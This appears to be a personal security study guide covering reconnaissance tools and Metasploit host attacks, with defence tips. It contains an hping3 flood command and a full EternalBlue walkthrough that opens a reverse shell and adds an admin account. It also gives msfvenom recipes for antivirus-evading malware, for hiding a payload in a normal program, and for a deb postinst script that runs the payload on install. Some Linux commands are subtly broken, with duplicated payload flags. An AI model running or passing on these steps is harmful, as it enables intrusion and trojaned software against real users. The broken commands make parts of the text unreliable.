




# Information Security: My Offensive and Defensive Strategies 

This document is a summary of information security tools and strategy that I used or comprehended for years of IT experience to distinguish my capability and apply for GTI security trainee. Meanwhile, I will take this as an addon to my NCTU-Information-Security final write up.


## Information Gathering

Information Gathering is always the first step in the security offense and defense. An cracker should make their best effort to dig out information from the victim, as it could help cracker to know the valuable digital asset of their target, developing stack, architectures, vulnerabilities, password, preparing for long-term hacking(APT) and even more. For developer, there are three major ideas to protect them from such danger:

* Make a list, know what kind of information could be exposed online, by collecting information just like a hacker does will be really helpful to do this
* Decrease the exposure of information by using tools or other techniques, for example, using Whoisguard to hide their whois information
* Decoupling information related to themselves/company with safety related system, for example, use long complex passphrase and mandatory 2FA

Now, I will introduce some tool that could be used for information gathering, this could be include LAN and WAN.


### Website Information Gathering

#### Obtaining IP Address

##### Weakest

Some weak security website will expose their IP to public network, we normally use `nslookup/ping/dig` to obtaining the IP. This module could define the name type such as A/AAAA/CNAME, and DNS server. For example, use

```shell
nslookup A www.google.com

dig @1.1.1.1 www.google.com any

dnsenum www.google.com
```

By defining different type and DNS server, you may find different resolve of target. Sometimes, this could leak your real IP address.

Moreover, you may already know one of the IP address of your target, you want to find more machines hosted on the same IP. You could you the following way to get domain names hosted on the same IP address.

```shell
dig -x 1.1.1.1
```

By combining two above ways, you may collect a lots of potential targets.

But firstly, a DDoS attack could be the most common one to attack.


##### Defense Upgrade

We could use many method to defense attack such as DDoS, for example, you can upgrade your server capability, theoretically, but in practice, this only solve the surface of the problem but not solving more serious problems like port exposure.

You can build up your own DMZ, such as use a balancers, to hide the background architectures. But there is also a convenient way to do it which is using CDN.

CDN, originally designed to speed up the network speed for ICPs. However, it is getting more important in infosec industry. This is because it will help the users to hide their real IP address, seizes port exposure and bear TB-level torrent attack for their customers without offline.

Some providers provides fare price CDN or even free. While under attack, you could even ask for a attack mode and let the CDN help you check whether someone is a client or attacker.



The image is an example for one of my website. Unless certain services requires a full exposure, all services should stay behind the CDN.

* Question you may ask: Why you exposed the first line on this CDN list and how you could solve this problem

  That line of DNS record is an isolated service that uses non-standard port that not supported by this CDN for free. Actually, CDN could provide TCP port forwarding, however, that's normally not for free. For example, Cloudflare only allow 80 series and 443 series ports with web socket to forwards their data.


##### Offense Upgrade

This involves how DNS works. 


You may already find, when an domain was registered or DNS record was updated. Your DNS server will be sent all over the world across the hierarchy of this DNS tree according to requests and your DNS providers. 

This led a problem that if someone is keeping the record of all the DNS record, your real IP address before you linked to CDN will be exposed because of DNS record.

By Google `DNS History` or `DNS Record` or use tools such as `securitytrails` , then you will know the CDN and IP records.


##### Defense Upgrade

Adding machine or changing CDN providers may causes problem above. So, after you got everything set up on your CDN provider, remember to change IP with CDN turned on.


#### Obtaining WHOIS Information

##### Weakest

Directly use `whois` command or using free tools online you can directly access WHOIS information. With such information, cracker could create interference to the company or person, especially WHOIS info contains name, telephone, email and physical address and they and mandatory while register a web domain.

In mainland China, ICP Beian is another way that could causing similar vulnerability. Meanwhile, combining with Tianyancha and Qichacha, a company's information could be very much exposed.


##### Defensive Upgrade

International domain registrants nowadays will provides Whoisguard for free, which could use for hiding whois information. 


Similarly, Maltego, a information collection software, combined command above and user made addons, can be used for all direction of information gathering. By drag-n-drop and right-click, a website with its personnel, machine, subdomains, DNS and all you could think can be obtained from resources that can be public access. Security engineer should use this software and apply ideas that I mentioned above in the head to protect IT system from cracking.

 


#### Data-Link Layer information Scanning

Data link layer is in charge of the devices within the same network environment, i.e. under same range of IP addresses. Major tools includes `arping`, `netdiscover`.


`arping` made use of the ARP which will help transfer IP to MAC address while transferring data in a network. 

```shell
arping 192.168.1.1 -c 1
```

normally one IP should only have one machine. If there are more than one machine, especially for gateway IP, it is highly possible that someone is trying to to imitate the gateway to implement ARP attack.


`netdiscover` also uses similar idea, but it could find all devices with MAC addresses and its vendor information

```shell
netdiscover -i eth0 -r 192.168.1.0/24
```

If you don't want to be discovered by administrator's audit, you can also use the quiet mode while using `netdiscover`:

```shell
netdiscover -p
```


`Wireshark` is another tool that stands at the data link layer, but it is the strongest package capturing tool I have ever used. It can capture all un-encrypted data packages, such as FTP, DNS and HTTP, and show them with friendly UI platform.

Meanwhile, by using filter `ip.addr == 192.168.1.1` and other filtering criteria, you can also find machine that you want to look at details. There are a lot of other filtering method for Wireshark, and we can get help from its website.


#### Network Layer information Scanning

Network layer is mainly about the IP and ICMP related. Major tools includes `ping`, `traceroute`. 

Users normally will not block `ping` but they can block `traceroute` access by themselves.

```shell
ping www.google.com
traceroute www.google.com
```


Also, `hping3` is an another tools that could be used for a small DOS attack or pressure test.

```shell
hping3 -c 1000 -d 120 -S -w 64 -p 80 --flood --rand-source example.com
```


#### Transport & Application Layer information Scanning

Transport layer in TCP/IP represents the transport method TCP/UDP while transferring data, and application layer represents the port, program and transforming real application related data.


##### NMAP & MSFconsole

Normally, we use `nmap` and `msfconsole` to scan in order to know the stack of an application, which is critical for web and client offensive. Those software may have vulnerabilities that have not been fixed, which is the most juicy thing for attackers that intend to offense the target.

The most basic usage is like:

```shell
nmap www.google.com
```

You can also use parameters to use some other functions:

```shell
nmap -O www.google.com  # scan OS
nmap -A -p 2522 nctu.edu.tw # scan selected port and determine its application
nmap -sV --script vulscan/vulscan.nse nctu.edu.tw # scan with vulnerability script
nmap -sS nctu.edu.tw # only send SYN/ACK message and wait for target's RST/ACK
```


##### Free Tools Online: Shodan

Meanwhile, if you already know the host is running on the public network, using `shodan.io` is also a good way to discover the vulnerabilities. You can use its search box to define the product/city/version/... you want, and then it will return a really detailed stack and vulnerability report.



By knowing all these things, attacker could use MSF and other open source script to penetrate the host. As developer, we should also make good use of these tools as they can clearly show us what is vulnerable part in our systems.


##### Free Tools On-site: Nessus

Here, I would like to introduce a software called `Nessus`, a vulnerability detection software that can be publicly downloaded.

Users can determine hosts to scan and it will returns similar stack analyze especially vulnerabilities that it could have.  

The scanning takes a lot of time, but it will give you a very detailed overall vulnerability report and it can be used for almost all platforms in the market.


#### After All These Techniques


## Password Engineering

### Hashcat

### Encryption: Storage Password Safely

### Johnny v.s. shadow File

### Wifi Password Hacking


## Web Hacking

### Database Injection

### XSS Attack

### CSRF Attack

### BurpSuite

### X-Forward and other Header attacks


## Host Hacking

### Metasploit Framework: Vulnerability Exploits

There are 6 modules we need to know when using MSF, using `msfconsole` to open the MSF:

* Auxiliary: use for vulnerability scanning and detecting
* Exploits: use to attack target, latest version already have more than 2000 exploits
* Post: after you obtained the access from your target, you can use this to plan for further attack, such as APT
* Payloads: use to receive and send information to the target after you conquered a target. Similar to SSH.
* Evasion: use for make malware.
* Encoders: normally for malware generation to avoid anti-virus
* Nops

Besides, users could install addons and extensions that from external sources, for example, Nessus, OpenVAS...


Common commands have:

* connect [IP]:[PORT]
* show + [type]/[name] | grep ...
* search (name/port/rank/cve/author/date/...): [what you want to search]
* use [name]
* info [name]
* sessions (-i)
* exit

to find and use modules in MSF.


#### Use Modules and Attack Targets

Assume that you have collected enough information of the target machine, then you may have some basic idea of what kind of exploits that machine could have. For example, a Win 7 machine could have unfixed eternal blue(MS17-010).

Thus, use auxiliary that provided by MSF to scan whether the system have the vulnerability unfixed.

```shell
search type:auxiliary MS17-010

use auxiliary/scanner/smb/smb_ms17_010
```

By using `show options` command, you will see a series of settings waiting for your setup.



Some you can simply keep default, but required ones you must set them up. For example, RHOST, the attacking targets and RPORT.

After setup, use `run` command, the module will start to scan the exploit. If it prompted with `Host is likely vulnerable`, it means the target could be attacked by `exploit` modules.

Then

```shell
search ms17 010

use exploit/windows/smb/ms17_010_eternalblue
```

Similarly

```
show options
...

set RHOST 192.168.128.53

show targets # this is to show the scanned possible targets
```

Do not `run` right now, because you need payloads to capture all the returning information and send instructions. You can treat different payload as different shell controlling software, some may only send and receive messages, some have very good utilities and some could even return VNC, X-window and keyboard records. For example, `meterpreter` is a really good payload that many attack examples would use it and `shell` is also a very good payload with light-weight size and hard to be detected.

```shell
show payloads  # Attention: following command within the exploit

set payloads windows/x64/shell/reverse_tcp

show options

set LHOST 192.168.128.32  # IP is the attacker's address

run
```

After a certain time, you will find exploit finished, press `Enter` to continues as long as `session opened`

```
net user admin admin /add

net user
```

If you are using non-English system, you may need to use

```shell
chcp 65001
```

to use Unicode showing characters.

To keep this connection, use `background` to save the session to background, and then use `sessions -i` to return.


Similarly, if you want to hack other platforms, such as Linux/Databases/Web Stacks, you can also use similar steps as it shown above.


#### Defend of Vulnerability Exploits

User should always pay attention for their information security, both from their mind and action:

* Using the latest stable version software

* Implement system update and turn on the anti-malware software

* Do not open unnecessary function in case of lacking of maintenance, especially for enterprises

  My previous employer is one of the great model implementing this: HSBC allow no employees to download, install and run exe software from external website, even from official. When you want to use some software, they need to raise a GSR request for centralized push or use source code to compile by themselves. 

* Function isolation and use well-recognized enterprise-level platform could maximize the difficulty of  vulnerability exploits.


### MSFVenom: Client Penetration

Combined `msfpayload` and `msfencode`, a tools for generating malware across all major operation system (Win/Linux/Android/...) with utilities to capture and send instruction (msfpayload) and encoding to anti-anti-virus.

Users can simply use a line of code to generate an virus for windows

```shell
msfvenom -a x86 \                #software architecture
		 --platform windows \    # where would you like to run this virus     
		 -p windows/meterpreter/reverse_tcp LHOST=192.168.128.32 LPORT=4444 \  # payload, you need to use msf start it your self. payload setting should be attacker's machine
		 -b "\x00" \               # clean bad character, otherwise may be unable to run
		 -e x86/shikata_ga_nai \   # encoder, for anti-anti-virus
		 -i 10 \                   # how many times you want to encode
		 -f exe \                  # output format
		 -o [where/you/want/to/output.exe]
```

If you this this encoding is not good enough, you can make multiple times of encoding

```shell
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp -p windows/meterpreter/reverse_tcp LHOST=192.168.128.32 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -i 10 | msfvenom -a x86 --platform windows -e x64/alpha_upper -i 10 -f exe -o [where/you/want/to/output.exe]
```

Moreover, embed you malicious code into a normal functional program

```shell
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp -p windows/meterpreter/reverse_tcp LHOST=192.168.128.32 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -i 10 \
		 -x nornalsoftware.exe #the exe you want to embed
		 -f exe -o normalsoftware-with-virus.exe
```

Then the virus could be used for client penetration. Steps are just like

```shell
use windows/meterpreter/reverse_tcp

show options 

set LHOST 192.168.128.32  # IP is the attacker's address

run

getsystem
```


Similarly, on Linux

```shell
msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp -p windows/meterpreter/reverse_tcp LHOST=192.168.128.32 LPORT=4444 -b "\x00" -i 10 -f elf -o virus
```

You can also make it into a packed deb or rpm package

```shell
msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp -p windows/meterpreter/reverse_tcp LHOST=192.168.128.32 LPORT=4444 -b "\x00" -i 10 -f elf -o /package/resource/virus

tee /root/free/DEBIAN/postinst << 'EOF'
#!/bin/bash
sudo chmod 2755 /package/resource/virus
sudo /package/resource/virus &
EOF
```

While install software on Linux, a sudo privilege will be required. Thus, as long as the software installed, the virus will start run.


 I used Virustotal to check the malware I generated, found less than half anti-virus software could recognize a malware like this one Windows platform. And even worse, if you use same configuration and generate a Linux malware like this, only one or two anti-virus software could recognize its dangerous. However, Linux users are generally professionals and enterprises, which lead a much smaller number of being attacked compared to Windows platforms.


There are not many ways to defend threaten like vulnerability and virus attacks:

* General user should have anti-virus software and download all programs from trusted resources. Anti-virus will be very useful on Windows platforms.
* Meanwhile, make more strict rules to adapt software that could be run locally, for example, scan with anti-virus, use software with trusted certificate, self compile open source software.
* For Enterprise, architecting and isolating programs and machines, decrease the possibility of being hacked and the leakage after being hacked. For example, do not run all programs in same machine.
* Containers such as docker and k8s have the mechanism to require the least privilege to run programs. Meanwhile, pay attention to volume, network and privilege setting while using.

Above suggestion is also good ways to defend 0-day attacks, least privilege, least information and least exposure are always the most important principles for nowadays information security.